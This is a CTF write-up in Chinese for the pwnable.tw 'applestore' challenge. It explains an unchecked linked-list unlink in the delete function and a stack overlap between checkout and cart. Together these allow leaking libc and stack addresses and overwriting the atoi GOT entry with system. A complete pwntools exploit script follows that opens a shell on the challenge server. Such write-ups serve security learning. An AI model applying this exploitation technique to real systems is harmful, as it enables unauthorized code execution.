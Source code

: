 # poc

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

> 泄漏`libc`地址 -> 泄漏栈地址 -> 通过指针操作修改`got`表 -> 执行`system('&system_addr;/bin/sh\x00')`

mycart是一个链表，第一个块是空的。`handler`包括`list`、`add`、`delete`、`cart`、`checkout`等函数。如果`checkout`能够1元购机时即总额达到`7174`，会在链表末尾增加一个新块，但这个块地址在栈上，由于`checkout`和`cart`函数内部栈结构相同，因此在`cart`中从`buf[2]`开始的内容会覆盖这个块。块结构如下，因此可以利用`cart`通过修改`name_addr`造成任意地址泄露。

```
            ---------------
            |    last     |
            ---------------
            |    next     |
            ---------------
            |    price    |
            ---------------
            |  name_addr  |
buf[2]->    ---------------
```

由于`delete`内部处理和linux堆管理中`free`类似，就是链表删除节点操作，但没有进行检查，因此存在漏洞。如果`next = addr - 0x0c`，那么`*addr = *last`。同理如果`last = addr - 0x08`，那么`*addr = *next`。因为可以控制`atoi`传入参数，而`my_read`向`nptr`即`[ebp - 0x22]`读入值，因此考虑修改`ebp`成`got['atoi'] - 0x22`，这样能够直接修改`atoi`的`got`表中的值为`system`的地址，从而`get shell`。


> hint:
> 1. 由于存在指针操作，注意将next和last赋值准确，避免abort，gdb容易在出现错误前崩溃
> 2. 泄漏`libc`地址之后可以通过泄漏`environ`获得栈地址
> 3. 因为`libc`不可写，因此没有直接修改`got['atoi'] = &system`，因为另一个指针操作会修改system内容。


# exp

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

DEBUG = 0

elf = ELF('applestore.dms')

if DEBUG:
    p = process('applestore.dms')
    gdb.attach(p)
    libc = ELF('libc-2.23.so')
else:
    p = remote('chall.pwnable.tw', 10104)
    libc = ELF('libc_32.so.6')

def additem(id):
    p.recvuntil('> ')
    p.send('2')
    p.recvuntil('Device Number> ')
    p.send(str(id))

def deleteitem(id):
    p.recvuntil('> ')
    p.send('3')
    p.recvuntil('Item Number> ')
    p.send(str(id))

def cart(content):
    p.recvuntil('> ')
    p.send('4')
    p.recvuntil('Let me check your cart. ok? (y/n) > ')
    p.send(content)

def checkout():
    p.recvuntil('> ')
    p.send('5')
    p.recvuntil('Let me check your cart. ok? (y/n) > ')
    p.send('y')

def leakaddr(addr, num):
    cart('yy' + p32(addr) + p32(1) + p32(0) * 2)
    p.recvuntil('%d: ' % num)
    return u32(p.recv(4))

def change(addr, nextptr, lastptr, num):
    deleteitem(str(num) + p32(addr) + p32(1) + p32(nextptr) + p32(lastptr))

l = [6, 20, 0, 0, 0]

for id, i in enumerate(l):
    for j in range(i):
        additem(id + 1)

s = sum(l) + 1

checkout()

libc_addr = leakaddr(elf.got['puts'], s) - libc.symbols['puts']
stack_addr = leakaddr(libc_addr + libc.symbols['environ'], s)
system_addr = libc_addr + libc.symbols['system']
atoi_addr = libc_addr + libc.symbols['atoi']
change(libc_addr, stack_addr - 0x104 -0xc, elf.got['atoi'] + 0x22, s)
p.send(p32(system_addr) + ';/bin/sh\x00')
p.interactive()
```
